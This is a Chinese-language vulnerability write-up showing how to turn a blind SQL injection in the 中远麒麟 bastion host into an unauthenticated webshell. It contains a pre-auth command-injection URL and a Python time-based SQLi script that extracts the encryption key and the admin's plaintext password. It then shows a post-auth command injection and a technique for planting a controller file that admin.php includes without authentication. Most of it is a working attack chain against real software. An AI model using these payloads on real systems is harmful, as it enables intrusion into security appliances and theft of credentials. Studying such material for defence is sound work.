 ```yaml
---
title: "中远麒麟堡垒机SQLi->webshell"
date: 2023-08-31T15:59:04+08:00
tags: ["sqli"]
---
```


早在之前v1.6时，有一个简单的pre-auth RCE

```
https://target/get_luser_by_sshport.php?clientip=1;command;&clientport=1
```

之后升级到了v1.7，也就是这次hvv爆出sqli的版本，其实在v1.6时就已经因为这个写法出了一堆sql注入，但不是很明白为什么没改，在hvv中爆出来的只有延时检测的poc，下面来看看怎么把这个没回显的注入转化到rce写入webshell

首先这个版本由于架构的调整，认证前可以访问的功能已经很少了，在 `admin.php` 193行开始，可以看到这次爆出来的注入

```php
else if($_GET['controller']=='admin_commonuser'){ 
	$username=$_POST['username']; 
	$password=$_POST['password']; 
	$minfo = $member->select_all("username='".$username."'");
```

username直接从post传入并且带入字符串，跟入select_all，函数定义在 model/base_set.class.php

```php
public function select_all($where = '1=1', $orderby1 = '', $orderby2 = 'DESC') { 
	if($orderby1 == '') { 
		$orderby1 = $this->id_name; 
	} 
	return $result = $this->base_select("SELECT * FROM `$this->table_name` WHERE $where ORDER BY $orderby1 $orderby2"); 
}

function base_select($query) {
	$result = $this->query($query);
	if (!$result) {
		return NULL;
	}
	else if(mysql_num_rows($result) == 0) {
		return NULL;
	}
	else {
		while($row = mysql_fetch_assoc($result)) {
			$data[] = $row;
		}
		return $data;
	}
}

public function query($query) {
	global $_CONFIG;
	if($_CONFIG['DB_DEBUG']){
		echo $query . "<br>";
	}
	//echo $query;
	$result = mysql_query($query);
	if($result === false) {
		// echo "SQL:" . $query . "<br>";
		if($_CONFIG['DB_DEBUG']){
			echo "Error:" . mysql_error() . "<br>";
		}else{
			echo "Error: database error<br>";
		}
	}
	return $result;
}
```

可以看到直接带入了 mysql_query 造成注入，这里在 base_query 中加了一个打印错误信息的方便看到结果，实际操作该注入不回显

![](/img/tosec-audit-sqli-to-webshell/1.png)

在有注入之后，开始考虑怎么获取库里的数据，由于这个系统目前登录只是查了用户名然后再做密码比较，之后全用session，首先考虑的是怎么获取到管理员口令来完成用户登录，然而库里存的密码是不可见字符

![](/img/tosec-audit-sqli-to-webshell/2.png)

跟踪一下密码经过了什么处理

```php
public function udf_decrypt($password, $udf=0){//return $password;
    global $_CONFIG;
    $password=addcslashes($password,'\\\'');
    if(!$udf && $_CONFIG['PASSWORD_ENCRYPT_TYPE'])
        $p = $this->base_select("SELECT AES_DECRYPT('".($password)."','".$_CONFIG['PASSWORD_KEY']."') as pass");
    else
        $p = $this->base_select("SELECT udf_decrypt('".($password)."') as pass");
    return $p[0]['pass'];
}
```

这里的 `$_CONFIG['PASSWORD_ENCRYPT_TYPE']` 来源于库中的 `PASSWORD_ENCRYPT_TYPE`，默认开启

![](/img/tosec-audit-sqli-to-webshell/3.png)

那么需要找一下 `$_CONFIG['PASSWORD_KEY']` 是什么

```php
$PasswordKey = $settingobj->base_select("SELECT udf_decrypt(svalue) AS pass FROM setting WHERE  sname='PasswordKey'");
$_CONFIG['PASSWORD_KEY'] = $PasswordKey[0]['pass'];
```

那么就比较清晰了，使用延时先从表中取到 `PasswordKey`，再使用这个key通过延时去获取admin的明文密码

```python
payloads = '_-@.,' + string.digits + string.ascii_letters

def doSqli(subsql):    
    result = ''
    checkUrl = target + '/admin.php?controller=admin_index&action=chklogin&frommc=1&username=admin\' and if(ascii(substr((' + subsql + '),%d,1))=%d,sleep(5),1)%%23--'
    for i in range(30):
        for payload in payloads:
            try:
                req.get(checkUrl % (i+1, ord(payload)), timeout=3, verify=False)
            except requests.exceptions.ReadTimeout as ex:
                result += payload
            except Exception as e:
                pass
    return result

def doGetPass():
    subsql = "SELECT udf_decrypt(svalue) AS pass FROM setting WHERE  sname='PasswordKey'"
    print('[+] get passwordKey')
    PasswordKey = doSqli(subsql)
    print('[!] PasswordKey: ' + PasswordKey)
    subsql = "select aes_decrypt(password,'%s') from member where username='admin'" % PasswordKey
    print('[+] get admin pass')
    password = doSqli(subsql)
    print('[!] admin password: ' + password)
    return password
```

在获取到admin密码后，我们有了访问认证后功能的能力，那么找一下认证后的漏洞，其实这个就很简单了，随便找一下就有很多命令注入，比如 `c_admin_vpnlog.class.php` 中的 `cut` 函数

```php
function cut(){
    global $_CONFIG;
    $username= get_request('username', 0, 1);
    $cmd = $_CONFIG['CONFIGFILE']['VPNCUT']." ".$username;
    $a = exec($cmd, $o, $r);
    if($r==0){
        $this->member_set->query("UPDATE member set vpn=0 where username='".$username."'");
        alert_and_back('操作成功');
        return ;
    }
    alert_and_back('操作失败');
}
```

这里有个小问题，那就是 `get_request` 中其实做了一次传参的的转义，所以类似重定向之类的符号不能直接用，但这个很好绕过

```php
function daddslashes($string, $force = 0) {
	if(!MAGIC_QUOTES_GPC || $force) {
		if(is_array($string)) {
			foreach($string as $key => $val) {
				$string[$key] = daddslashes($val, $force);
			}
		} else {
			$string = htmlspecialchars(addslashes($string));
		}
	}
	return ($string);
}
```

到这里已经有一个命令执行了，但我希望实现webshell，这里的条件不是那么完美，因为当前的nginx配置为

```conf
 location ~ admin.php$ {
    root /opt/freesvr/web/htdocs/freesvr/audit/public/;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index admin.php;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    include fastcgi_params;
    fastcgi_param  VERIFIED $ssl_client_verify;
    fastcgi_param  DN $ssl_client_s_dn;
    fastcgi_connect_timeout 300;
    fastcgi_read_timeout 600;
    fastcgi_send_timeout 600;
}
```

这也导致不管怎么写文件其实都是没办法访问的，因为除了 `admin.php` 之外其实都不给解析到php，随后在继续阅读 `admin.php` 代码时发现

```php
if(isset($_GET['controller'])) {
	$controller = 'c_' . $_GET['controller'];
}
else {
	$controller = 'c_admin_index';
}

if(!empty($_GET['action'])) {
	$action = $_GET['action'];
}
else {
	$action = 'index';
}
$language = array('en','cn');
// ...
require_once(ROOT . './include/language_cn.php');
if(in_array(LANGUAGE,$language)){
	require_once(ROOT . './include/language_'.LANGUAGE.'.php');
}
if($_SESSION['ADMIN_UID']){ /* ... */ }
if(file_exists(ROOT ."./controller/$controller.class.php")) {
	require_once(ROOT ."./controller/$controller.class.php");	
    if((!isset($_SESSION["ADMIN_LOGINED"]) || $_SESSION["ADMIN_LOGINED"] == false) && ($action != 'login_user_field' && $action != 'login' && $action !='chklogin' && $action != 'getpwd'&& $action != 'docronreports'&& $action != 'synchronization_ad_users'&& $action != 'synchronization_ldap_users'&&$action!='get_user_login_fristauth'&& $action != 'get_sms'&& $action != 'get_email'&&$action!='get_weixin'&&$action!='qrcodeimage'&&$action!='watertext')) { 
        /* 跳回登录 */
    }
    else {
        /* 权限控制 */
    }
```

在对是否登录的检查(这里并不会跳回登录页)之后，就开始取 `controller` 与 `action`，将对应的controller文件包含进来后再开始判断是否需要跳回登录与权限校验，那么如果写入一个 `./controller/c_shell.class.php`，再走 `admin.php` 来包含不就可以完成webshell吗，并且还可以无需认证即可访问

到此，就可以实现从未授权sqli->webshell

![](/img/tosec-audit-sqli-to-webshell/4.png)